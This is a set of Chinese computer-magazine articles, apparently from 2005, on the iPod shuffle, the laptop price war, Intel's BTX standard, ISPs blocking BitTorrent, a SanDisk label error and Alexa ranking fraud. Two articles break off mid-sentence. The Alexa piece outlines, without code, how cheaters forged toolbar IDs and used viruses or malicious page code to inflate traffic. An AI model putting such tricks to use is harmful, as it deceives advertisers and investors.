和iPod市场定位不同，990元人民币的iPod shuffle也是一款专吃低端消费市场的“五脏不全”的产品——很难想像如今这个时代，一款MP3产品不带液晶屏，不带收音机功能。怪不得它一经推出，就被创新CEO沈望傅先生劈头盖脸地数落了一顿：“我们本来期待着苹果能够推出个像样的产品跟我们竞争，没想到竟然拿出落后五代的产品来糊弄事儿。iPod shuffle的特点跟我们第一代产品MuVo一样，没有显示屏。我估计苹果这个产品会遭到全行业的耻笑，它简直比最廉价的播放器还要差。就算是最便宜的品牌现在都有显示屏和FM功能。苹果连这些功能都没有还要出来竞争，这简直是异想天开。”(中关村在线消息)事实上，一项最新调查显示，美国关于iPod shuffle的投票为：支持者为55%，反对者为45%，其反应的最大缺点是没有显示屏所带来的操作不便。

令沈先生始料不及的是，iPod shuffle在国 内还未推出，就有很多朋友从国外网站上订 购了此产品。1 GB 容量闪存介质的iPod shuffle，从成本上将MP3随身听拉到了千元级 别，尽管再添500元人民币就能买到诸如创 新的1.5 GB 随身听，但苹果人似乎并不在乎 竞争模仿者。曾经将iPod全球流行评论为苹 果过液崇拜论的范迪斯说：“iPod的火车头开 得太快了，已经没人能让其降低速度了，即 使出现iPod shuffle这样的简化版iPod，囊中 羞涩的学生们依旧会蜂拥而至。”

据业内资深人士分析，iPod虽定出了天 价依然风靡全球，究其原因有二：第一，iPod 秉承了苹果一贯独特的工业设计思路；第 二，iPod巧妙地找到了入市的结合点，iPod与 软件iTunes下载服务的融合，是iPod赢利的 重要方式。不过，记者通过街头采访，发现 正在使用iPod产品的年轻人居多，而购买理 由很简单：别人有了，我为什么不能有。

也许沈先生言之有理，毕竟创新一直在 领导影音领域的潮流，不过“iPod外观+990 元低价+特殊消费群体”已经足够让iPod shuffle在国内热卖。至于是否仍然会像iPod一 样，使苹果股价达到几年内的新高，我们拭 目以待。

## 苹果：盖茨的噩梦

拨开苹果4990元Mac Mini和990元iPod shuffle低价入市带来的重重迷雾，我们应该 看到，Mac Mini也好，iPod shuffle也罢，引起 业界关注的是乔布斯开始要做一件让创新、 微软、Intel、AMD真正觉得有威胁的事了。

25年前，当IBM推出第一台个人电脑的 时候，苹果在广告中说，欢迎！此后的25年 间，微软凭借其操作系统上的拳头产品，屡 屡让乔布斯退守城池。比尔·盖茨用了25年的 时间在个人电脑领域努力营造和Intel、AMD的“IT铁三角”格局，占据了几乎全部 江山。个人电脑这一仗一打就是25年，结果 盖茨给了乔布斯重重一击。这一击让乔布斯 一直到2004年都没有喘过气来。

25年间，乔布斯努力营造他的苹果帝国。 从硬件到软件，现在又到了MP3产品的自主 研发，使得任何一个竞争对手想插进一根头 发丝都难。不过，近日《华尔街日报》一篇 文章称微软继续升级Virtual PC，发布了最新 的7.0版，使Windows能够在苹果电脑上运行 得比过去更好一些。但考虑到微软今年对64 位系统方向的努力，很可能不久就会有 Windows系统可以真正地在苹果电脑上运行， 而不是通过虚拟方式。也许Windows入主Mac 后将会带来Mac销量的倍增，但令Intel与AMD 担心的是，一旦苹果电脑销量突破某一临界 值，POWER处理器的产量上升将带动成本下 降，这将使得Intel与AMD的价格优势丧失。

Apple II发表时，在美国媒体上引起轰动

## 苹果的新对手：还是微软

联想到刚刚闭幕的CES 2005，微软推出 反iPod联盟的消息，不禁让人们再次想起盖 茨。而随后对相关新闻的查阅更加证实了记 者的猜想。2004年8月，创新开发了全球第 一款基于微软Windows Media Player 10的便携 式影音播放器Creative Zen，并且得到了微软 的大力帮助。微软一直想在在线音乐和在线 视频方面树立如同Windows一样的绝对地 位。在线视频方面的最大对手是 RealNetworks，而在线音乐方面最大敌人则 是苹果。

CES 2005期间，旧金山街头遍布着苹果的 iPod MP3播放器的剪影广告

苹果的iPod其实只是个播放器，背后的 软件iTunes才是苹果将来的盈利方向。将来 的音乐下载一定会是付费的，iTunes在欧美 已经成为网上有偿下载音乐的最好选择。微 软已经成功地让老牌的在线音乐提供商 Napster采用其有版权保护的WMA格式，也反 映了微软进军这一市场的决心。

反iPod联盟其实是微软和苹果在豪赌未 来的在线音乐销售市场。微软的反iPod联盟 中众多厂商只不过是微软的棋子而已。而苹 果则是借助自己的强大设计功底，自己来 干，最多加上想来蹭口饭吃的HP。但厂商都...如果你没看过《天下无贼》，请先预览一下本片；
如果你看过《天下无贼》却没有记住里面的精彩对白，请先看看文章的标题你是否熟悉；
本文专为喜爱《天下无贼》同时希望了解2005年笔记本市场动态的朋友所作；
如有雷同，纯属巧合。

## 2005 笔记本厂商演绎“天下无贼”

眼下到了年关，IT业内大事特别多。联想重金买下了IBM个人电脑事业部，Dell和惠普低价挺进中低端笔记本市场，让还沉浸在喜悦之中的新联想备感压力，东芝渠道大变脸后显示出几分混乱。这些事实让那些在2004年还没有购机的朋友喜出望外。喜从何来呢？也许是盼望着低价风暴再来得猛烈些吧。

## IBM:你接得了我吗？联想:我想试试

联想重金买下IBM个人电脑事业部，成为了猴年年未惟一一件惊天地、泣鬼神的大事。当我们反观2004年联想和IBM的笔记本销售业绩才发现，业绩平平使他们失去了市场老大的风范。

IBM去年销售业绩平平。记忆中那号称最轻薄的X40系列，基本上还是IBM一贯的外形，IBM一贯的机身，IBM一贯的优点，只是多了取悦国人的“轻薄”。营销策略上，“一元康宝”事件让无辜消费者顿时觉得IBM不再是他们心目中的蓝色巨人，随后将错就错的公关策略，才让它稍微挽回了一些颜面。年底，从不跟风的IBM随业界刮起“宽屏风”、“降价风”之反常举动，让评论人士不禁要问，如果不是卖给了联想，IBM会掺和一笔吗？是无心恋战、保持风度，还是廉颇老矣、力不从心呢？卖给了联想，IBM还能否靠它那一流的键盘手感、一流的外壳材质还有超一流的品牌混饭吃吗？面对接手的联想，IBM肯定要问:你接得了我吗？

带着问题，记者走访了中关村几家IBM经销商。企业的合并与重组看来与消费者的购买行为无关，但事实并非如此。IBM给消费者的承诺是18个月内售后服务等问题仍由IBM蓝色快车售后服务中心负责。但18个月后呢？记者得到的答复是，大客户依旧享受由大客户服务中心提供的“72小时响应”、“随时提供备机”等一流的服务，而普通消费者的未来至今还没有一个定论。据某经销商分析，IBM和联想联合后，IBM得益于联想的销售网络，将获得诸如政府采购、零配件统一采购等权力，而联想也借此机会获得IBM强大的软件开发能力。但由于两个品牌市场定位不同，IBM依旧沿袭自己高端的市场定位，但价格肯定会降低，联想品牌继续开拓中低端市场，但联想笔记本由内而外的品质肯定会有所提升。看来，联想收IBM之举真的是要试着接IBM一招了。

## Dell:去年我们主要还是锻炼队伍

洋品牌在国内市场已经度过了磨合期。无论笔记本品质如何，但就销售模式来看，Dell直销的威力确实是去年的一个亮点。如果说笔记本市场是各路豪强的竞技场，那么Dell就是一只最有耐性、最贪婪的大贼。Dell的销售业绩是疯了似的猛涨，打几个电话、猛铺广告就是人们眼里的Dell直销模式，2004年我们看到的是510m-n领头的机型一跌再跌，官方网站上齐刷刷的降价，难道国人只吃这一套吗？

Dell有其风靡全球直销的绝技，但是在国内外市场上这还是一个没有充分发挥出力量来的杀手锏，人民群众虽然也有那么一丝“国际领先”销售模式的崇洋心，但归根结底还是聪明的:我管你怎么卖给我，价格便宜量又足才好。在国内市场上，Dell的综合销售成本实际比起联想来无过之而有不及，能有如此的好业绩，靠的主要还是自己的资金运作实力，更主要的是营销能力。十八般武艺样样精通，还有别人不及的直销杀手锏，天下无贼能及，拥有最大的潜力，在国内市场现只不过是“锻炼队伍”而已……

接下来的2005年呢？新联想成立不久，Dell立刻以一记重拳——洋品牌里第一家推出“6999元笔记本电脑”，打响了2005年洋品牌降价的第一枪。采访中，消费者对Dell品牌的美誉度还是非常高的，但经销商却褒贬不一。有些经销商坦言Dell笔记本售价中有5%是广告成本，有些经销商更是揭露Dell品质有所下降。2005年，想做“大贼”看来并不容易。

## 惠普很生气，后果很严重！

猴年岁末，惠普也没闲着。这不，惠普的平板电脑已经随着《天下无贼》的热播，“秀”遍了大江南北。《天下无贼》片中智勇双全的反扒警察用的就是一台惠普的平板电脑TC1100，尽管很多消费者很喜欢这款机子，它之所以没有热卖的原因，恐怕和惠普对其平板操作系统的力度持观望态度脱不了干系。惠普可谓是笔记本电脑的元老级人物，但平日里老谋深算的它在2004年屡屡被人抢了风头，确实显得格外“愤怒”。起初，本来想借V1000系列、V2000系列独领市场宽屏风骚，没想到大家一窝蜂，宽屏的价格急转直下，甚至什么14英寸首款宽屏、13英寸首款宽屏被搅成一滩混水，高亮屏高显卡性能失去了意义；内存模块缺陷召回把戏随着东芝、Dell的动作也让大家麻木而了无新意；低价市场上只有B2000、NX9040苦苦支撑，曝光度最高，但却显不出惠普的实力……

年关的晴天霹雳，更是让惠普生气。国内销量老大和老二的IBM和联想站到了一起，原有的格局一下子被打破，看来不发发威是不行了。“龙腾计划”带来的不仅仅是售价6999元的M2000，它的意义早已不在低价，更重要的是惠普向业界表明了自己的态度:放下架子，全面拓展产品线，在新联想羽翼未丰时进行“围剿”！

## 神舟:严肃点，严肃点，不许笑，我们这儿打劫呢！

神舟电脑在业界被誉为“活土匪”，“因为它总能扮演搅局者的角色，别人稍有动作，它便能够打破消费者求低价的心理防线”某笔记本厂商说。

在笔记本市场的二线厂商里，神舟可谓真正摸到了“价格战”的门儿。材质好、技术领先、功能强大，这些也就能提起追求高端机型的购买者的兴趣，在同配置机型里价格最低，才能取悦于众多求实惠的消费者。神舟老总吴海军去年说过两句著名的话，一句是“2005年神舟电脑会推出仅售3999元的笔记本”，另外一句是“如果世界人类失去联想，还有神舟”。讲两句话联系起来看，结合神舟的低价策略与中低端的市场定位，确实要抢联想的饭碗。对于神舟打劫似的市场开拓能力，无论是消费者还是厂商都要严肃点，再高明的神偷也架不住让人冷不丁地捅你一刀啊。

从价格上看，如果占有笔记本电脑三分之一成本的液晶屏成本能降低50%，笔记本市场将会在2005年全面崩盘。记者从神舟电脑了解到，新天下集团将在深圳投资至少20亿元建立一条3.5代液晶面板生产线。据了解，该生产线投产后，神舟笔记本电脑液晶面板成本将降低一半。可悲的是，这些在国外纷纷下马的技术，怎么就成了国人普及笔记本电脑的惟一希望了呢？一线厂商最可怜，因为他们是永远也跟消费者讲不清楚自己同配置产品为什么价格总也降不下来的。

## 市场乱了，笔记本不好买了

分析家预计，2005年将是国内PC用户升级换代的一年。随着电脑成为媒体中心的观念深入人心，随着购买能力的增强，低价质优的笔记本电脑会成为他们的首选。毕竟，越是强大PC越是电老虎，再强大的PC也无法让消费者享受移动办公的乐趣。

笔记本市场在经历了2004年的重新洗牌后，没有哪个厂商敢站出来说生意好做。这种品质不一、价格混乱的笔记本市场的混乱局面，让消费者从何下手呢？我这里提出几点建议，首先，当然是要多看《电脑爱好者》市场栏目，了解不同品质和价格的微妙关系。其次，是到市场上问问同一经销商对不同品牌的看法。最后提一句，价格永远不是衡量品质的关键。

## 为什么苹果被咬了一口？

牛顿微标仅用了很短的时间，很多人认为该微标过于复杂，不易复制传播。于是，苹果人开始制作了一个苹果的黑白剪影，但是总感觉缺了些什么。每一个见到苹果徽标的人都会禁不住问：为什么苹果被咬了一口？这或许正是当初设计苹果徽标的人恰恰所希望达到的效果。

-   鲜艳的色彩，给人以活力和朝气；
-   咬掉的缺口唤起人们的好奇、疑问；想知道苹果的滋味就要亲口尝一尝，对吗？
-   英文的咬字(bite)与计算机的基本运算单位字节(Byte)同音；

## 第一台苹果机

Apple I是苹果公司的第一款机型。1976年四月，在酷哥乔布斯的车库里诞生。模样像个打字机。主板裸露在外，连个像样的屏幕都没有（接电视上看），功能也很有限。

（本刊实习记者 张健）

## BTX 再见 Intel 利己主义

Intel 显然已经习惯性地成为业界领袖。2005 年，它再次把目光投向了下一代主板架构 BTX，并大造声势，一下子搬出增强散热、有利于布线、支持窄板设计等三大法宝。然而，事实并非如此。BTX 取代 ATX 真的是“大势所趋”了吗？拨开迷雾，我们认为，BTX 不过是 Intel 又一次利己主义的产物。

BTX(即 Balanced Technology Extended, 平衡技术扩展)是 Intel 定义并引导的桌面计算平台革新。按照 Intel 说法，BTX 支持下一代电脑系统设计的新外形，使行业能在散热管理、系统尺寸和形状以及噪音方面实现最佳平衡。BTX 架构支持窄板设计，系统结构更加紧凑；优化主板布线，有利于散热和气流的运动；优化了机械性能，主板安装更简便。但这些恐怕都不能说服理智的消费者买单吧。增强散热，为什么 AMD 不提倡用 BTX？有利于布线，为什么厂商不愿意推广？便于安装，为什么消费者不觉得方便？

### 我好热

Intel 的 Prescott 处理器太热了！解决不了散热，Intel 只能暂停 4GHz 的 Prescott P4 处理器计划。即使频率更低的 Prescott 6xx 系列处理器最高功耗也达到了 130W，创历史新高，工作时的温度经常高达 60℃~70℃，伴随而来的 CPU 散热风扇噪音问题成了 Prescott 的心腹大患。因此，BTX 一改 ATX 结构最后给 CPU 散热的传统，机箱前部进气口进来的冷空气直接给 CPU 散热，在 Intel 的 CPU 享受冷气时，显卡、内存、硬盘等其他配件，则只能吸入 CPU 呼出来的热空气了(图1)。

同样是处理器，发热量差距怎么就那么大呢？性能相当于 P4 4GHz 的 AMD Athlon 64 4000+ 处理器最高功耗 93W，性能更强的 Athlon FX55 处理器最高功耗 108W，对它们来说，现在 ATX 结构的散热环境已能满足需要，并还有相当大的潜力可挖。

### 我好孤单

将主板各部分的分工模块化，利于主板及相关配件安装，这是 BTX 的另一个优点。但拿出一块 MicroBTX(左)主板与一块 MicroATX(右)主板对比(图2)，就会发现，拥有同样多外部接口的两块主板， MicroBTX 比 MicroATX 长且宽，就好像我们有更大的房子放置同样的家具，当然更好放了，但多出的房屋面积谁来付钱呢？仅仅是要更大的房子还好办，但如果大房子还不能放下同样多的家具……

图3是一款 MicroBTX 机箱，其体积与标准 ATX 机箱相当，但在机箱前部留下专门的 CPU 入风通道后，这款机箱只有 2 个五英寸扩展槽和 4 个三英寸扩展槽，而标准 ATX 机箱则能提供 3~4 个五英寸扩展槽和 5~7 个三英寸扩展槽，谁的扩展性好一看便知。

### 它好无辜

芯片大战如逆水行舟，在 AMD 风头正旺的时候，趁着自己还有实力，赶紧挥起标准制定者的大棒，逼 AMD 就范，才是 Intel 鼓吹 BTX 的真正原因。不过，业内人士指出，Athlon 64 自带内存控制器，而 BTX 架构中内存到控制器的距离不等，致使信号无法一致，这有可能是 AMD 抵制 BTX 的根本原因。另外，现在的 Athlon 64 芯片组分南北桥设计和单芯片设计两种，这些不同的设计如何融入 BTX 也是相当麻烦的问题。正所谓“打蛇打七寸”，Intel 推 BTX 一方面能掩饰自己的缺点，另一方面打到了老对手 AMD 的“七寸”，手法果然巧妙。

(本刊记者 Storyer)

## BT 犯法，谁在造冤？

> 《入网责任书》的正常上网行为，却遭到运营商的限制，这真是理所应当吗？

近日，几个 BitTorrent(以下简称 BT) 服务器运营商因向网民提供 BT 下载影视作品，而与美国电影协会(MPAA)对簿公堂。国内部分省市的电信运营商也开始封闭 BT 端口。BT 是 2004 年兴起的一种网络下载方式，由于下载速度快，网上资源丰富，广受世界各地网民的推崇。网民用 BT，运营商封 BT，MPAA 告 BT，这一连串的行为不禁让人起疑:提供 BT 的人犯法了，还是网民使用 BT 犯法了？记者采访中发现，网民的行为是否犯法还未定性，运营商此举是否违规？

### 上帝在哭泣

LokiTorrent 是被 MPAA 指控的众多 BT 网站之一。MPAA 称这些网站为用户下载盗版电影提供了便利。LokiTorrent 选择了迎难而上，与制片厂对簿公堂。至截稿时止，LokiTorrent 已经向曾经享受过服务的网民筹集到 22000 美元捐款以支付诉讼费用。LokiTorrent 是第一个站出来为网民的行为买单的 BT 服务器运营商。而我们注意到，同样“深受其害”的中国影视界却至今未做出任何表态。我们暂且不谈国际大事，单从网民角度来看，这些被称为“上帝”的网民却成为了电信运营商的刀下鬼，难道他们真该受此待遇吗？

经记者核实，一些地区的电信运营商已经向网民张开了无情大网，有的封闭网民 BT 下载服务端口，有的限制网民下载行为，还有的虽没有采取行动却也在筹划着做点什么。如此看来，网民使用 BT 的大限将至。然而，令很多网民不解的是，他们并没有违反《入网责任书》的正常上网行为，却遭到运营商的限制，这真是理所应当吗？

### 运营商反响不一

重庆网通在其网上客服中心发布了关于 BT 的一个用户调查，主题是“是否关闭 BT”，在很短的时间内参加人数就达到 7800 人次以上，从投票结果看，支持与反对者数量基本相当。之后不久，开始有大量用户在论坛反映 BT 速度极慢或根本无法使用。不过网通官方对此事始终保持沉默。网通限制 BT 的理由是“大量用户使用 BT 工具时，会严重堵塞网络，造成网上电影中断或频繁缓冲，以及游戏卡机”。在北京，长城宽带内部人士表示，已经限制了对外网用户(非长宽用户)使用 BT 下载，但对于长宽内部用户没有限制，同时表示这是大势所趋，中国电信不限制 BT 仅是暂时的。记者拨通了北京市场份额并不大的铁通公司的电话，得到的答复是，目前，铁通并不会限制用户使用 BT。但未来方向还不便向记者透露。

### 运营商翻脸有内情

某运营商内部人士告诉记者，导致运营商翻脸的根本原因另有隐情。据透露，在竞争激烈的京沪穗，一般来讲运营商不敢轻易拿用户开刀。毕竟这种单方行动会让其他竞争伙伴钻了空子，你不提供服务，总会有人提供。但既然有的运营商敢冒天下之大不韪，这说明运营商在当地的市场开拓能力相当强大，用户根本没有选择。其次，BT 下载占用大量带宽考验运营商的运营能力。一般来说，假如一个局点设备提供 1000 个接入用户，其传输通道一般会高于这 1000 个用户的实际需求，也就意味着有一部分带宽资源的余留。假如局点并没有提供足有的余留，网内恰好有大量用户在 BT，那么，有限的通道必然被很快占满。再次，从运营商收入来源来分析，BT 下载和普通下载虽都要占用带宽，但运营商可以向传统的 HTTP 或者 FTP 提供者收取费用，而 BT 是通过用户点对点的传输，运营商等于费力不讨好。目前，运营商的带宽消耗最大的要数网游和 BT 下载。这位知情人士反问记者：“一个能给运营商带来丰厚的收入，一个却在白白地浪费他们的资源，你说运营商的天平会向哪边倾斜？”

### BT 凤凰涅磐:法力是否增大一倍

面对网民质疑运营商封 BT 有违规嫌疑，重庆网通对此答复说:我国法律规定，未经国家允许，任何单位和个人不得向互联网上发布信息，BT 软件在使用时不可避免地会向其他人进行下载内容发布和传播。QQ 等应用都有相应网络监控措施，而 BT 目前没有相应内容监控措施，这与国家相关法律精神相违背，因此限制 BT 有法可依。而律师认为，关键在于 BT 是否属于运营商提供的 Internet 服务。BT 在双方合同中并没有约定，如果没有国家标准或者行业标准，就只能按照通常的标准办理。

近日，我们看到 BT 工具本身也在发生着变革。eXeem 作为 BT 工具的改进程序，已经脱离了种子服务器。此举能够有效地避免盗版及非法软件的传播？我想，目前的惟一解决办法只有开发者从软件设计上有效杜绝软件过分吞噬带宽，运营商需要及早拿出 BT 监控的成型办法了。

(本刊实习记者 张健)

## 业界

### 买张卡真难吗

请注意这张照片！这是记者从北京太平洋电脑城买到的一块Sandisk CF卡包装盒上的产品说明，“生产国别”一项中竟将台湾省以国家身份并列于中国和日本，真想象不出这样一个标识会出自于Sandisk产品全国第一大代理商宏衢（上海）贸易有限公司。这是生产厂商的错误，还是代理商的“失误”？难道这样的说明可以堂而皇之地放在产品标识上吗？记者展开了全面地调查。

### 经销商不知情是假

Sandisk产品在市场上销售状况一向很好，由于产品进货渠道不同，产品说明从风格、字体、颜色都不相同。这些产品说明一般是由正面的一个防伪标识和背面的一个《保修说明书》构成的。《保修说明书》中会含有该产品的制造厂商、代理商、生产国别、商品名称和注意事项等信息。在鼎好电脑城，记者将此卡拿给一个经销商鉴别真伪。该经销商说：“你这块卡是上海宏衢代理的卡，应该是真的。你可以拨打免费咨询电话鉴别真伪啊。”既然产品是正宗上海宏衢代理的正品，记者又向经销商问起产品说明中有关“生产国别”栏中的重大错误，经销商很警惕地回答：“这个我们不清楚，不是我们的责任。”说罢，拿出柜台里的另外几块CF卡，向记者解释自己的卡不存在问题。但是，记者拿到的另一块CF卡同样存在问题，只不过有人将“台湾”二字用黑笔抹掉了而已。当记者再次询问有关产品说明被涂抹的事实时，经销商很客气地不再理会记者。

### 宏衢处理力度不够是真

记者从宏衢（上海）贸易有限公司的客户服务代表处了解到，宏衢早就要求全国各地的经销商自行处理产品说明中的错误。这样看来，严重错误早就被告知经销商，经销商所谓“不知情”的说法是假。

产品标识出了问题，常理上讲是应该由负责撰写和印刷的相关责任人负责的。但从记者了解的情况来看，目前来讲这个责任人还没有浮出水面。记者致电宏衢上海总公司，市场部的靳先生回答了记者的问题。

产品说明中出现的错误宏衢是否知道？

靳先生：我们公司已经开会研究过这个问题。目前，市场上应该已经没有这款产品流通了。这批出现印刷错误的产品是至少三个月前的产品，当时发现问题的是一些经销商。我们得到反馈后，认识到了问题的严重性，及时卡住了流通环节，也通知了经销商要修改手头存货的产品信息。

宏衢来自台湾省，专门代理Sandisk产品，在国内也有很好声誉。产品说明是否是宏衢自己定稿的？最后出现错误，究竟是哪个环节出现了问题？

靳先生：这确实是宏衢自己撰写的说明文字。但我们送印刷前还没有出现问题，问题应该是出在印刷环节上面。

面对记者越来越尖锐的问题，宏衢方面显然暴露出一些问题：

第一，既然是自己出的样稿，为什么印刷以后没有人校对出错？

第二，出现问题后，仅仅通知经销商修改一下，这个做法真的能最大限度地弥补损失吗？市场上此类产品比比皆是的事实告诉我们，亡羊补牢的办法没太奏效。

记者向工商和技术监督部门了解到，消费者发现此类问题，有权向12365监督电话举报违规信息，一经确认，执法部门将予以严厉查处。

### 消费者借此辨真伪

不可否认，宏衢代销的Sandisk产品品质还是不错的，但市场上充斥的假货确实不少。这次“印刷错误”从某种意义上说，给了消费者一个鉴别真伪的方法。宏衢提醒消费者，这批印刷错误的产品应该已经被市场消化，市面上存在的产品很有可能是假货。作为第一大代理商，宏衢定期都会更改产品防伪标识，惟一不变的就是通过拨打免费电话验证产品防伪号码的验证体系。消费者如果买到有问题的产品，请一定拨打电话查询真伪，否则买到假货的可能性很大。

（本刊实习记者 张健）

## Alexa排名：一个不见硝烟的战场

有人形象地把网络经济比作“注意力”经济，意思是说谁吸引的网民眼球多，谁就有可能获得更大利益。在各家网站利润的蛋糕中，广告收入是重要组成部分，而能说服众商家心甘情愿掏出银子的诸多理由中，网站排名首当其冲。一个名叫Alexa的“美国小伙”站了出来，从1996年开始扮演了一个网站信息收集的第三方权威机构的角色，Alexa排名越靠前即代表了网站能吸引的风险投资数越多。于是乎，一时间作弊高手纷纷“献计献策”，将一批中国网站强“顶”了上去。

谁知，这位“美国小伙”也不是好惹的。据相关媒体报道“权威的互联网排名站点Alexa网，日前大清理作弊行为，中国国内28家知名网站涉嫌在全球网站排名网站Alexa上作弊，被Alexa清空访问数据，导致排名出现大跳水，从500位以内狂跌到33万名之后，但排名靠前的新浪、搜狐、网易、TOM等门户网站的排名未见大变化……”1月26日，不少网站因此排名一落千丈。有人用“大地震”形容此次整顿对中国部分网站影响。

地震过后，人们反思的同时，也在质疑Alexa排名的有效性和权威性，甚至有评论家放言“Alexa将会导致互联网经济提前走向低谷”。这一切争端因何而起，又将如何收场？

### Alexa来自美国的“小伙”

1996年4月，Alexa在美国创立，那时它只是一个小网站，主要做分类导航。当时，很多网站都是Yahoo的Fans，Alexa只是众多跟风者中的一员罢了。但Alexa自己也有一些技术，就是对访问某个Web站点的流量进行统计和分析。后来，Alexa还向网民提供自己开发的搜索引擎服务。

1997年7月，Alexa发布了一款软件，就是现在著名的Alexa Toolbar（Alexa工具条），这是一个嵌入到微软IE中的工具，它在用户访问每个Web页面时都向Alexa发回一串代码，将该次浏览的相关信息告诉Alexa。而用户会在该工具条上看到其浏览的网站在全球所有网站中的排名信息，当然，这只是Alexa给出的网站排名。

1999年，Alexa被美国电子商务旗舰企业“亚马逊”收购，成为它的全资子公司。

2002年春，Alexa放弃了自己的搜索引擎，转而与Google合作。Google遍及全球的Web爬行程序构造了一个巨大的页面信息数据库，这极大地丰富了Alexa自身的URL网址数据库。同时，Alexa也悄悄地放出了自己的爬行程序，在互联网上搜寻未知的网址。经过多年积累，Alexa的URL网址库已存储了400亿网址信息，超过了Google等搜索引擎，成为互联网上最全的网址信息数据库。Alexa数据库的每日平均增量高达1TB，每两个月就能对数据库进行一次全面更新。

### Alexa掌控全球网站信息

现在，Alexa工具条在全球“装机量”早已上千万，而Alexa主要的工作就是基于遍及全球电脑用户桌面的工具条返回的信息，对全球网民的浏览习惯进行监测，并开发和销售各种相关产品。其中，有最长达10万个网址的全球网站排行榜，有针对某些特定行业网站的排行分析，有针对个别网站定制的网站流量监测报告。Alexa还提供了很多免费的基本信息，比如“全球网站500强”，还有“简体中文网站100强”，网民们可以在Alexa上单独查看关于某个网站的排名历史变化图，甚至还能同时对最多5个网站的流量及排名等数据进行直观的横向对比。

尽管Alexa在其网站上提供了非常多的有价值的信息，但其真正赖以成名的还是那个被四处引用并被媒体多次炒作过且引发了巨大争议的全球网站排名。按照Alexa网站上的解释，“官方声明”，Alexa公开的那份全球网站总排名是通过收集所有Alexa工具条返回的信息，经过计算得出的综合排名。从这份“官方声明”中，我们不难看出，影响Alexa排名的因素是两个，一是Alexa采集的信息，二是Alexa对这些信息进行深加工的计算方法。

在Alexa网站上，人们可以针对某个特定网址去查询其所属的网站的访问人数，Alexa提供了一个叫做Reach per million users（每百万用户访问人次，简称Reach）的数据来表示访问人数，这个数据指的是每一百万个Alexa工具条用户中每天访问某一网站的平均人数。比如，2004年11月3日，Google.com的Reach值为178500，就是说，这一天里，每一百万个Alexa工具条用户中就有近18万人访问过Google.com。仅有访问人数，还不足以反映一个网站被网民浏览的情况，Alexa还提供了另一个数据来反映到访的网民对特定网站的使用率，这就是PageViews per user（每用户浏览页面数，简称PV）。某网站的PV值是每天所有访问该网站的Alexa工具条用户在该网站上浏览的总页面数的平均值，而同一天内对相同页面的重复浏览在每天只计作一次。还以2004年11月3日Google.com的访问数据为例，这一天，Google.com的PV值是4.0，也就是说，来访的网民们平均在Google.com网站上浏览了4个页面。

有了Reach和PV这两个数据，Alexa就可以给全球网站按综合流量进行排名了，它把网站的这个排名称作Traffic Rank（流量排名，简称Rank），据Alexa在其网站上的解释，决定这个Rank的就是Reach和PV的几何平均数，也就是两者乘积的平方根。显然，一个## Alexa:排名靠前，简单?

随着互联网企业的成长壮大，Alexa作为全球惟一一家统计网站信息的专业机构，其重要性逐渐显露出来。自2003年，国内互联网行业开始全面升温；网站要吸引投资，必须首先打消投资者的顾虑，就算是已经上市的网站，也需要给股东们一些明确的数据来表明自身的价值。就在这时，Alexa排名被介绍到了国内，虽然这个网站以前从未引起大家的注意，但是它提供的这个排行榜却很快显示出巨大的商业价值，各种技术手段也开始被应用在提高Alexa排名上。


解密Alexa工具条似乎很简单。记者了解到，通过破解植入IE浏览器的Alexa工具条，了解Alexa工具条运作机理，用人为方法模拟Alexa工具条是作弊高手普遍应用的方法。每当用户以装有Alexa工具条的IE打开新页面时，Alexa的一台服务器(data.alexa.com)都会收到加密数据包，这个数据包中的核心信息就是十几个参数，这些参数包括当前网页地址、页面打开时间、用户端显示分辨率、Alexa工具条版本号等，其中有一个重要的隐含参数，汇编高手认为是Alexa为每个已安装的工具条自动生成的ID号码，这个号码应该是全球惟一的。Alexa可以通过这个ID对每个反馈数据包的发出者进行惟一标识，这是解决PV重复计算问题和防止同一用户多次刷新作弊的一个重要手段。请注意，作弊高手只要破解Alexa用来惟一标示用户身份的ID号码生成算法就能模拟多个ID向Alexa服务器发送假信息。

邪魔外道也能提高网站排名。小网站也有不花钱的办法提高排名，包括使用QQ病毒、网页恶意代码、广告链支持、疯狂弹出页面加刷新等。前些日子国内搞得沸沸扬扬的假冒腾讯网页赠送Q币事件，就是其中典型的一例。

## Alexa:排名清零非我所愿

1月26日，当笔者得知多家国内网站被Alexa清零的消息后，立刻登录Alexa网站进行了验证，发现并未如其他媒体报道中所述“被清零的网站将永远取消统计资格”，但从近期的走势图上可以看到许多国内网站都出现了较大震荡，从一个侧面映证了事件的存在。后来有消息称是相关网站与Alexa公司联系后，排名得以恢复。这时笔者不禁要质疑出现这次事件的原因是什么？为什么又会这么快就恢复了？网上猜测也是五花八门，有人分析这只是Alexa局部数据传输的故障而已，几个月前Tom.com等网站也曾遭到一两天的“清零”排名，但后来迅速恢复了正常统计。有的猜测说这是Alexa开始对国内的作弊网站进行报复，而且采用的是“宁可错杀一千，也不放过一个”的政策。还有人说这是作弊者角色的转变：从想让谁升谁就升，变成了想让谁死谁就死，Alexa成了自杀与谋杀的帮凶。在众说纷纭中，网民被弄得晕头转向，惟一可以肯定的是，事件给国内网站带来了较大的影响，许多当事网站工作人员都接收到来自客户的电子邮件，大多是质疑网站是否存在作弊和违规行为、对网站的诚信提出疑问的。排名清零，到底是Alexa技术问题，还是Alexa就是想惩戒一下作弊者？Alexa官方没有回应，所以记者也只能将这个问题暂时摆在这里。Alexa统计工作可以恢复，但作弊网站在网民心中的地位却一落千丈，短时间内很难恢复。

## 提高排名待良策

目前，影响Alexa排名的因素大概有两个，一是Alexa采集的信息，二是Alexa对这些信息进行深加工的计算方法。长期以来，国内对Alexa排名一直存在较大争议，因为它的数据是通过对安装在世界各地超过1000万台电脑上的Alexa工具条采样得到的。全世界目前有6亿多的互联网用户，其中中国网民不到一亿，安装了Alexa工具条的用户可能超过130万。按照Alexa声称的1000万左右的工具条全球下载总量来看，中国网民对Alexa的热衷似乎显得更为突出，这或许也可以作为中国国内网站2004年在Alexa排行榜中整体排名提高的一个解释。

